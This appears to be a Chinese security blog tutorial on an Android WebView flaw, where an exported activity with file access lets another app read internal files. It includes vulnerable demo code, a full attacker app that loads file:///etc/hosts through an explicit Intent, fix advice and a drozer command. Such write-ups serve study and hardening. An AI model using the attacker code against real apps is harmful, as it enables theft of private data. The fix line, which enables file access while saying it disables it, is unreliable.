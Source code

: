 title: android webview file域控制不严格利用
abbrlink: 3957115657
date: 2019-04-29 13:37:55
tags: 
- android安全 
- webview
---
## webview file域控制不严格读取内部私有文件
必须条件：  
1.存在webview的activity组件可导出  
2.当前的webview允许使用file协议  

可利用app关键代码:  

```
android:exported="true"//api17及以上版本默认为false
webView.getSettings().setAllowFileAccess(true);//默认是true
```

MainActivity.java  

```
public class MainActivity extends AppCompatActivity {

    private WebView webView = null;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
//        setContentView(R.layout.activity_main);
        webView = new WebView(this);
        setContentView(webView);
        webView.setWebViewClient(new WebViewClient());
        webView.getSettings().setAllowFileAccess(true);
        Intent mIntent = this.getIntent();
        Bundle bundle = mIntent.getBundleExtra("bundle");
        String url = bundle.getString("url");
        webView.loadUrl(url);
    }
}
```
AndroidManifest.xml  

```
<activity android:name=".MainActivity" >
            <intent-filter>
                <action android:name="android.intent.action.MAIN" android:exported="true" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
```

攻击app关键代码:  

MainActivity.java

```

public class MainActivity extends AppCompatActivity {

    public static final String LOAD_URL="file:///etc/hosts";
//    public static final String BAIDU="https://www.baidu.com";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        ComponentName componentName = new ComponentName("com.demo.victim","com.demo.victim.MainActivity");
        Intent intent = new Intent();
        Bundle bundle = new Bundle();
        intent.setComponent(componentName);
        bundle.putString("url",LOAD_URL);
        intent.putExtra("bundle",bundle);
        startActivity(intent);

    }
}
```

利用:    
先安装可利用app在安装攻击app，在打开攻击app  
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/30/01.jpg)

修复:  
设置android:exported="false" 设置为不可导出  
webView.getSettings().setAllowFileAccess(true);明确禁用file协议

工具:  
使用drozer查看activity导出  
```
run app.activity.info -a com.xx.xx
```

## LINNKS
[Android WebView File域同源策略绕过漏洞浅析](https://blog.csdn.net/jltxgcy/article/details/50678304)  
[WebView域控不严格读取内部私有文件实验](https://www.freebuf.com/articles/terminal/160061.html)  
